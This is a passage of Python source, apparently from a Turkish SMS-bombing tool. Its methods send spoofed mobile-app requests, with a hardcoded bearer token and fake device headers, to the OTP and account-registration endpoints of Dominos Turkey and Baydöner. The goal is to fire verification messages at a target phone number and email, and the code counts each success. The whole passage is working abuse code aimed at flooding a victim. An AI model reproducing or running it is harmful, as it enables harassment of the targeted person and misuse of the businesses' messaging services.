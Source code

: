         except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> auth.sbuxtr.com")


    #dominos.com.tr
    def Dominos(self):
        try:
            url = "https://frontend.dominos.com.tr:443/api/customer/sendOtpCode"
            headers = {"Content-Type": "application/json;charset=utf-8", "Accept": "application/json, text/plain, */*", "Authorization": "Bearer eyJhbGciOiJBMTI4S1ciLCJlbmMiOiJBMTI4Q0JDLUhTMjU2IiwidHlwIjoiSldUIn0.ITty2sZk16QOidAMYg4eRqmlBxdJhBhueRLSGgSvcN3wj4IYX11FBA.N3uXdJFQ8IAFTnxGKOotRA.7yf_jrCVfl-MDGJjxjo3M8SxVkatvrPnTBsXC5SBe30x8edSBpn1oQ5cQeHnu7p0ccgUBbfcKlYGVgeOU3sLDxj1yVLE_e2bKGyCGKoIv-1VWKRhOOpT_2NJ-BtqJVVoVnoQsN95B6OLTtJBlqYAFvnq6NiQCpZ4o1OGNhep1TNSHnlUU6CdIIKWwaHIkHl8AL1scgRHF88xiforpBVSAmVVSAUoIv8PLWmp3OWMLrl5jGln0MPAlST0OP9Q964ocXYRfAvMhEwstDTQB64cVuvVgC1D52h48eihVhqNArU6-LGK6VNriCmofXpoDRPbctYs7V4MQdldENTrmVcMVUQtZJD-5Ev1PmcYr858ClLTA7YdJ1C6okphuDasvDufxmXSeUqA50-nghH4M8ofAi6HJlpK_P0x_upqAJ6nvZG2xjmJt4Pz_J5Kx_tZu6eLoUKzZPU3k2kJ4KsqaKRfT4ATTEH0k15OtOVH7po8lNwUVuEFNnEhpaiibBckipJodTMO8AwC4eZkuhjeffmf9A.QLpMS6EUu7YQPZm1xvjuXg", "Device-Info": "Unique-Info: 2BF5C76D-0759-4763-C337-716E8B72D07B Model: iPhone 31 Plus Brand-Info: Apple Build-Number: 7.1.0 SystemVersion: 15.8", "Appversion": "IOS-7.1.0", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "tr-TR,tr;q=0.9", "User-Agent": "Dominos/7.1.0 CFNetwork/1335.0.3.4 Darwin/21.6.0", "Servicetype": "CarryOut", "Locationcode": "undefined"}
            json={"email": self.mail, "isSure": False, "mobilePhone": self.phone}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["isSuccess"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> frontend.dominos.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> frontend.dominos.com.tr")


    #baydoner.com
    def Baydoner(self):
        try:
            url = "https://crmmobil.baydoner.com:7004/Api/Customers/AddCustomerTemp"
            headers = {"Content-Type": "application/json", "Accept": "*/*", "Accept-Language": "tr-TR,tr;q=0.9", "Platform": "1", "Accept-Encoding": "gzip, deflate, br", "User-Agent": "BaydonerCossla/163 CFNetwork/1335.0.3.4 Darwin/21.6.0"}
            json={"AppVersion": "1.3.2", "AreaCode": 90, "City": "ADANA", "CityId": 1, "Code": "", "Culture": "tr-TR", "DeviceId": "31s", "DeviceModel": "31", "DeviceToken": "3w1", "Email": self.mail, "GDPRPolicy": False, "Gender": "Erkek", "GenderId": 1, "LoyaltyProgram": False, "merchantID": 5701, "Method": "", "Name": "Memati", "notificationCode": "31", "NotificationToken": "31", "OsSystem": "IOS", "Password": "31Memati31", "PhoneNumber": self.phone, "Platform": 1, "sessionID": "31", "socialId": "", "SocialMethod": "", "Surname": "Bas", "TempId": 942603, "TermsAndConditions": False}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["Control"] == 1:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> crmmobil.baydoner.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> crmmobil.baydoner.com")
